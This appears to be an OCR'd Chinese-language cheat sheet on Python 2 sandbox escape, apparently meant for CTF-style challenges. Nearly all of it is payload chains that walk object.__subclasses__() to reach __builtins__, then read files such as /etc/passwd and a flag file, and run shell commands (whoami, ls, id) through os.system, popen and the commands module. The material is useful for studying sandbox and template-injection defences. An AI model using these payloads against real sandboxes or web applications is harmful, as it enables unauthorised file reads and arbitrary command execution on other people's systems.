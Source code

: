 ```python
查看其引用 __builtins__

Python 程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于 builtins 却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块。


#############
文件操作
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
这里会返回 dict 类型，寻找 keys 中可用函数，直接调用即可，使用 keys 中的 file 以实现读取文件的功能：

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()


# 还可以利用 index() 直接找函数名，然后直接索引调用
[].__class__.__base__.__subclasses__().index(file)
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()


################
命令执行
利用warnings.catch_warnings 进行命令执行。

首先，查看 warnings.catch_warnings 方法的位置：

[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
查看 linecatch 的位置：

[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')
查找 os 模块的位置：

[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')
查找 system 方法的位置：

[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')
调用 system 方法：

[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')

利用 commands 进行命令执行。

{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')


{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('ls')


{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```
